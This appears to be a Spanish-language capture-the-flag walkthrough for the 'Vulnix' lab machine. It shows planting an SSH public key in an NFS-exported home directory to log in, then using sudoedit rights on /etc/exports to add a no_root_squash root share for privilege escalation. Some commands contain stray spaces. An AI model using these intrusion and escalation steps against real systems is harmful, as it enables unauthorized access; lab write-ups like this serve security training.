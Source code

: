 ## Creación de las claves rsa
Desde el usuario 'vulnix', generamos las claves SSH privadas y públicas
```bash
┌──(vulnix㉿kali)-[~]
└─$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/vulnix/.ssh/id_rsa): 
Created directory '/home/vulnix/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/vulnix/.ssh/id_rsa
Your public key has been saved in /home/vulnix/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:s8fl4itLQZK3uU5gR9kh5y/x+IVjaVXoGy/tdcvJDo0 vulnix@kali
The key's randomart image is:
+---[RSA 3072]----+
|        . o    ..|
|       . * .  .. |
|      o = +  ..  |
|       = o = +o  |
|      o S o X .= |
|     . o * B o= =|
|        = + oEo+=|
|       +.o .  .=.|
|        ooo.  .. |
+----[SHA256]-----+
```
Creamos el directorio .ssh para almacenar la clave
```bash
┌──(vulnix㉿kali)-[~]
└─$ mkdir /mnt/ .ssh
```
Ahora copiaremos la clave rsa que hemos generado hacia el servidor
```bash
┌──(vulnix㉿kali)-[~]
└─$ cp .ssh/id_rsa.pub /mnt /.ssh/authorized_keys
```
Ahora podemos acceder a la máquina con el usuario vulnix
```bash
ssh -o 'PubkeyAcceptedKeyTypes +ssh-rsa' -i .ssh/id_rsa vulnix@10.0.1.24
```
Para elevar privilegios y obtener acceso como usuario root, verificamos los permisos de este usuario con el comando sudo -l
```bash
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports

```
Observamos que tenemos permisos para modificar el script /etc/exports. Notamos que en este archivo se encuentra el directorio compartido /home/vulnix. Vamos a añadir también la raíz /, pero con el parámetro no_root_squash, que permite que los usuarios root en el cliente NFS tengan privilegios de root sobre el directorio compartido
```bash
vulnix@vulnix:~$ sudoedit /etc/exports
```
```bash
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
```